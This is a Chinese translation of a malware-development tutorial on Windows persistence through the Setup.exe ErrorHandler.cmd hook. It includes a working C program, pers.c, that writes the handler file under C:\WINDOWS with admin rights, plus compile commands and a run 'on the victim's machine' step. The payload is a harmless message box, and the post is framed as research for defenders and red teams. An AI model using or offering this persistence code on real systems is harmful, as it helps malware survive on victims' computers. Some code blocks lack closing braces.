\newpage
\subsection{恶意软件开发：持久化（第 22 部分）——Windows 安装程序（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章基于我自己对一个比较有趣的恶意软件持久化技巧的研究：通过 Windows 安装脚本（Windows Setup script）实现持久化。

### 安装脚本

`C:\WINDOWS\system32\oobe\Setup.exe` 是 Windows 操作系统中的一个可执行文件。`oobe` 目录代表「开箱体验」（Out Of Box Experience），它是用户首次设置 Windows 时所经历流程的一部分，例如创建用户账户、设置偏好、选择默认设置等。

{width="80%"}

事实证明，如果你把载荷放在 `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd` 中，那么每当发生错误时，`c:\WINDOWS\system32\oobe\Setup.exe` 都会加载它。

### 实战示例

我们来看一个实战示例。首先，和往常一样，创建「恶意」应用程序。为了简单起见，和往常一样，它是一个 meow-meow 消息框「恶意软件」应用程序（`hack.c`）：

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

然后，只需创建用于持久化的文件 `ErrorHandler.cmd`：

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

如你所见，逻辑非常简单。

### 演示

我们来看看一切的实际运行。首先，编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，把我们的 `ErrorHandler.cmd` 移动到 `C:\Windows\Setup\Scripts\`：

{width="80%"}

好，下一步需要以出错的方式运行 `Setup.exe`。最简单的方法是不带任何参数执行 `Setup.exe`：

```powershell
.\Setup.exe
```

{width="80%"}

如果我们打开 Process Hacker 并查看 `hack.exe` 的属性：

{width="80%"}

我们可以注意到它的父进程是 `cmd.exe`（7264），

{width="80%"}

而它的父进程又是 `Setup.exe`（4876）进程：

{width="80%"}

如你所见，我们的持久化逻辑运行完美！=..=

### 实战示例 2：持久化脚本

为了实验的完整性，我创建了文件 `pers.c`：

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
  DWORD error = GetLastError();
  if (error != ERROR_ALREADY_EXISTS) {
  printf("failed to create directory. error: %lu\n", error);
  return -1;
  }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
  printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
  return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
  printf("failed to write to ErrorHandler file. error: %lu\n", 
  GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;

```

请注意，这个程序需要以管理员权限运行，因为它试图在 `C:\WINDOWS` 下创建目录和文件，这需要管理员权限。

{width="80%"}

### 演示 2

我们来看看一切的实际运行。编译我们的持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，只需在受害者的机器上以管理员权限运行它：

```powershell
.\pers.exe
```

{width="80%"}

在我的例子中，运行它之前我删除了这个文件夹：

{width="80%"}

再次运行 `Setup.exe`：

{width="80%"}

{width="80%"}

完美！=..=

### 结论

这是一个安装程序包常见的文件名。在本例中，它是 Windows 安装和初始化过程的一部分，在操作系统安装期间，以及添加或修改功能与组件时使用。

不过，如你所见，请注意：尽管它是 Windows 操作系统的合法组成部分，恶意程序有时也会把自己命名为 `Setup.exe` 以逃避检测。

`c:\WINDOWS\system32\oobe\` 文件夹里还有其他文件：

{width="80%"}

我没有检查过它们。

这个技巧此前已由 hexacorn 研究过：

{width="80%"}

我只是展示了 C 语言的粗糙 PoC 代码：`pers.c`。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)  
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)  
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)
